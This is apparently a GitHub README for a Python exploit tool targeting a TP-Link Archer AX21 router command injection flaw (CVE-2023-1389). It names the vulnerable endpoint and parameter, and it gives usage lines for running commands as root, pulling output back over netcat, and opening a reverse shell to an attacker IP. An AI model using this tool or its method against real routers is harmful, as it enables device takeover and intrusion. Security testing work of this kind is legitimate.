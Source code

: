 # TP-Link Archer AX21 Command Injection Exploit (CVE-2023-1389)

## Overview

This Python tool exploits a critical command injection vulnerability (CVE-2023-1389) in TP-Link Archer AX21 routers. It allows remote attackers to execute arbitrary commands, retrieve their output, or establish a reverse shell on vulnerable devices. The tool supports both GET and POST exploitation methods and provides multiple modes for flexible usage.

> **WARNING:** This tool is for authorized security testing and educational purposes only. Unauthorized use against devices you do not own or have explicit permission to test is illegal and unethical. The author is not responsible for any misuse or resulting damages.

---

## Features

- **GET/POST Exploitation**: Choose between HTTP GET or POST payload delivery.
- **Remote Command Execution**: Run arbitrary shell commands on the target router and retrieve output.
- **Reverse Shell**: Gain an interactive shell on the router via a reverse connection.
- **Interactive Shell Mode**: Issue multiple commands interactively.
- **Automatic Input Validation**: Checks for valid IP addresses and ports.
- **SSL/TLS Warning Suppression**: Automatically disables SSL certificate warnings for ease of use.
- **User-Friendly CLI**: Clear help messages and usage instructions.

---

## Technical Background

- **Vulnerability**: TP-Link Archer AX21 routers are vulnerable to command injection via the `country` parameter in the `/cgi-bin/luci/;stok=/locale` endpoint.
- **Attack Vector**: Unsanitized input allows attackers to inject shell commands, executed with root privileges.
- **Payload Delivery**: The exploit works over both HTTP and HTTPS and can use either GET or POST requests.
- **Output Retrieval**: Uses temporary files and netcat to exfiltrate command output back to the attacker.
- **Reverse Shell**: Employs a classic mkfifo-based bash reverse shell payload.

---

## Requirements

- Python 3.6+
- Linux system (for netcat compatibility)
- TP-Link Archer AX21 router (vulnerable firmware)
- Python dependencies: `requests`, `urllib3`

### Install dependencies

```bash
pip install -r requirements.txt
```

---

## Usage

### Basic Syntax

```bash
python3 CVE-2023-1389.py -a <ATTACKER_IP> [MODE] [OPTIONS]
```

### Arguments

- `-r`, `--router`       : Target router IP address (default: 192.168.0.1)
- `-a`, `--attacker`     : Your (attacker) IP address (**required**)
- `-p`, `--port`         : Local port for netcat listener (default: 9999)
- `-m`, `--method`       : HTTP method (`get` or `post`, default: `get`)
- `-t`, `--timeout`      : Request timeout in seconds (default: 5)
- `--https`              : Use HTTPS (default: enabled)
- `--no-https`           : Use HTTP

#### Modes (choose one, required)

- `-c`, `--command`      : Execute a single command on the router
- `-s`, `--shell`        : Obtain a reverse shell from the router
- `-i`, `--interactive`  : Interactive command shell mode

---

## Examples

**Execute a single command and retrieve output:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -c "id"
```

**Get a reverse shell:**
```bash
# In a separate terminal, start a listener:
nc -lvnp 9999

# Then run the exploit:
python3 CVE-2023-1389.py -a 192.168.1.100 -s
```

**Interactive shell mode:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -i
```

**Using POST method and HTTP:**
```bash
python3 CVE-2023-1389.py -a 192.168.1.100 -m post --no-https -c "uname -a"
```

---

## Troubleshooting & FAQ

- **No output received:**  
  Ensure your firewall allows incoming connections on the specified port. Make sure the router is reachable and running a vulnerable firmware version.

- **SSL/TLS errors:**  
  SSL warnings are suppressed, but if you encounter connection issues, try using `--no-https`.

- **Netcat not found:**  
  This tool requires `nc` (netcat) to be installed on your system.

- **Reverse shell fails to connect:**  
  Double-check your IP and port, and ensure your listener is running before sending the payload.

---

## Security, Ethics & Legal Notice

- Use this tool only on devices you own or have explicit permission to test.
- Unauthorized testing is illegal and unethical.
- You are solely responsible for your actions and any consequences arising from the use of this tool.

---

## Contribution

Contributions, improvements, and pull requests are welcome. Please open an issue for suggestions or bug reports.

---

## References

- [CVE-2023-1389 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-1389)
- [Original Advisory / Exploit Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1389)
- [Exploit-DB Entry](https://www.exploit-db.com/exploits/)


## 📷Screenshot
![whoami](https://github.com/user-attachments/assets/a4e89a21-919c-4539-a1b1-452da02dadfa)


---

## Disclaimer

This software is provided for educational and authorized security testing purposes only. The author assumes no liability for any misuse or damage caused by this tool.

---

If you have questions or wish to contribute, please open an issue or contact the repository maintainer.

